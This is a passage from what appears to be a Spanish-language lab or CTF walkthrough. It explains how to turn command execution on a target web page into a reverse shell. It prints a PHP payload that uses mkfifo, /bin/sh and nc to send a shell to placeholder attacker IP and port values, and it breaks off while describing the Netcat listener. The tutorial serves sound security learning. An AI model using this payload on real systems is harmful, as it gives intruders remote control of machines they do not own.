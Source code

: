 ![Captura de pantalla](./imagenes/17_comando_ok.png)


Como la ejecución de comandos ha sido exitosa. Ahora estamos en condiciones de probar a ejecutar un código considerado malicioso (por lo que determinados sistemas y configuraciones de firewall podrían mostrar alertas y/o bloquear su ejecución, esto podría pasarte si lo ejecutas en tu Sistema Operativo nativo -pongamos que en Windows o MacOS-, tenlo en cuenta si procede) como es una 'Shell Reversa'. Esto es ejecutar un código que lo que hace es enviar una shell (una terminal de comandos funcional) a la dirección IP y puerto que señalemos en él.

[ i ] Comando para enviar una `Shell Reversa`:

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <NUESTRA_IP> <PUERTO_DE_ESCUCHA> >/tmp/f") ?>
```

[ ! ] Importante. Antes de actualizar la página principal, tenemos que ponernos en escucha con `'Netcat'` por el puerto que hayamos definido el la shell reversa. Normalmente se usa alguno por encima del 1024 (ya que suelen estar reservados para servicios predeterminados).


![Captura de pantalla](./imagenes/18_reverse_shell.png)

Para ponernos en escuha con `Netcat` en nuestra máquina atacante usamos el siguiente comando (suponemos que seguís la guía desde un sistema Parrot Security o equivalentes con todas estas herramientas ya instaladas, si no es el caso normalmente en Linux con un sudo apt install 'nombre_herramienta' suele instalarse o aportarte información de cómo hacerlo):
